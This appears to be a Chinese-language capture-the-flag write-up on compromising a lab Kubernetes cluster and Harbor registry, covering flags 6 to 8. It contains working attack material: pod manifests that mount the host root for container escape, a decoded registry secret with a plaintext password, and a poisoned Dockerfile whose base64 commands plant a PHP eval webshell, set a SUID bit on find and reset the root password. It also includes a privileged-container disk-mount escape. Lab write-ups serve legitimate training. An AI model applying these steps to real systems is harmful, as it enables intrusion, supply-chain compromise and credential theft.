

恢复可调度状态

```
kubectl ......uncordon master
```





把taints删掉，上面那个操作顺道就删了，创建新docker，挂载逃逸

```
apiVersion: v1
kind: Pod
metadata:
  name: control-master-x
spec:
 tolerations:
   - key: node-role.kubernetes.io/master
     operator: Exists
     effect: NoSchedule
 containers:
   - name: control-master-x
     image: 172.22.18.64/public/mysql:5.6
     command: ["/bin/sleep", "3650d"]
     volumeMounts:
      - name: master
        mountPath: /tmp
 volumes:
  - name: master
    hostPath:
     path: /
     type: Directory
```

## flag6

node2节点，分配不过去，所以还是挂个污点吧，指定到node2下

```
apiVersion: v1
kind: Pod
metadata:
  name: control-master-x1
spec:
 tolerations:
   - key: node-role.kubernetes.io/master
     operator: Exists
     effect: NoSchedule
 containers:
   - name: control-master-x
     image: 172.22.18.64/public/mysql:5.6
     command: ["/bin/sleep", "3650d"]
     volumeMounts:
      - name: master
        mountPath: /tmp
 volumes:
  - name: master
    hostPath:
     path: /
     type: Directory
 nodeSelector:
    kubernetes.io/hostname: node2
```

## flag7

回到master节点，写公钥开干

```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.22.15.75  netmask 255.255.0.0  broadcast 172.22.255.255
        inet6 fe80::216:3eff:fe1b:8d07  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:1b:8d:07  txqueuelen 1000  (Ethernet)
        RX packets 347361  bytes 230265054 (219.5 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 219473  bytes 114617018 (109.3 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.22.50.75  netmask 255.255.0.0  broadcast 172.22.255.255
        inet6 fe80::216:3eff:fe18:6372  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:18:63:72  txqueuelen 1000  (Ethernet)
        RX packets 1149  bytes 83330 (81.3 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1118  bytes 94102 (91.8 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

```
172.22.50.45:22 open
172.22.50.75:22 open
172.22.50.45:80 open
172.22.50.75:111 open
172.22.50.75:179 open
172.22.50.75:5000 open
172.22.50.75:9253 open
172.22.50.75:9353 open
172.22.50.75:10000 open
172.22.50.75:10249 open
172.22.50.75:10248 open
172.22.50.75:10259 open
172.22.50.75:10257 open
172.22.50.75:10256 open
172.22.50.75:10250 open
172.22.50.75:30020 open
172.22.50.75:32686 open
[*] alive ports len is: 17
start vulscan
[*] WebTitle: http://172.22.50.45       code:403 len:277    title:403 Forbidden
[*] WebTitle: http://172.22.50.75:10249 code:404 len:19     title:None
[*] WebTitle: http://172.22.50.75:5000  code:200 len:0      title:None
[*] WebTitle: http://172.22.50.75:10248 code:404 len:19     title:None
[*] WebTitle: http://172.22.50.75:10000 code:400 len:0      title:None
[*] WebTitle: http://172.22.50.75:9253  code:404 len:19     title:None
[*] WebTitle: http://172.22.50.75:9353  code:404 len:19     title:None
[*] WebTitle: https://172.22.50.75:32686 code:200 len:1422   title:Kubernetes Dashboard
[*] WebTitle: https://172.22.50.75:10250 code:404 len:19     title:None
[*] WebTitle: http://172.22.50.75:10256 code:404 len:19     title:None
[*] WebTitle: https://172.22.50.75:10259 code:403 len:217    title:None
[*] WebTitle: https://172.22.50.75:10257 code:403 len:217    title:None
[+] InfoScan:https://172.22.50.75:32686 [Kubernetes]
```

第三层代理socks5://172.22.15.75:10000，信息收集发现有一个secrets

```
[root@master ~]# kubectl get secrets harbor-registry-secret
NAME                     TYPE                             DATA   AGE
harbor-registry-secret   kubernetes.io/dockerconfigjson   1      115d

[root@master ~]# kubectl describe secret harbor-registry-secret
Name:         harbor-registry-secret
Namespace:    default
Labels:       <none>
Annotations:  <none>

Type:  kubernetes.io/dockerconfigjson

Data
====
.dockerconfigjson:  121 bytes
```

解码获取其内容

```
[root@master ~]# kubectl get secret harbor-registry-secret -o jsonpath='{.data.\.dockerconfigjson}' | base64 --decode
{"auths":{"172.22.18.64":{"username":"admin","password":"password@nk9DLwqce","auth":"YWRtaW46cGFzc3dvcmRAbms5REx3cWNl"}}}
```

尝试登录harbor，发现私有镜像


登录，然后拉取即可

```
docker login 172.22.18.64
docker pull 172.22.18.64/hospital/flag:latest
docker run -id --name flag 172.22.18.64/hospital/flag
docker exec -it flag /bin/bash
cat /flag
```

## flag8

这里参考了大头师傅的wp，观察harbor的日志可以发现有一个主机会固定时间拉镜像，我们把镜像下载下来，发现有一个p.php，然后<http://172.22.50.45这个网站也有此文件，所以基本可以断定为此镜像，所以我们可以自构建一个同名镜像push上去，让其加载我们的恶意镜像>

先拉取镜像

```
docker login 172.22.18.64 #输入账号密码

docker pull 172.22.18.64/hospital/flag:latest
```

Dockerfile如下

```
FROM 172.22.18.64/hospital/system

RUN echo ZWNobyAnPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+JyA+IC92YXIvd3d3L2h0bWwvc2hlbGwucGhwICYmIGNobW9kIHUrcyAvdXNyL2Jpbi9maW5k | base64 -d | bash && echo password | echo ZWNobyAicm9vdDpwYXNzd29yZCIgfCBjaHBhc3N3ZA== | base64 -d | bash
ENTRYPOINT ["/usr/sbin/apache2ctl", "-D", "FOREGROUND"]
```

然后构建好镜像，push上去，等待20分钟一次的重新拉取

```
docker docker pull 172.22.18.64/hospital/system
```

我们将反弹shell命令写到文件里，然后利用find反弹shell

```
/usr/bin/find ./ -exec ./1.sh \;
```

su命令切换用户



查看容器权限

```
cat /proc/self/status | grep CapEff
CapEff: 0000003fffffffff
#特权逃逸一件套
df -h
Filesystem      Size  Used Avail Use% Mounted on
overlay          40G  4.3G   33G  12% /
tmpfs            64M     0   64M   0% /dev
tmpfs           1.9G     0  1.9G   0% /sys/fs/cgroup
shm              64M     0   64M   0% /dev/shm
/dev/vda3        40G  4.3G   33G  12% /etc/hosts


mkdir /test && mount /dev/vda3 /test
cat /test/f*
```
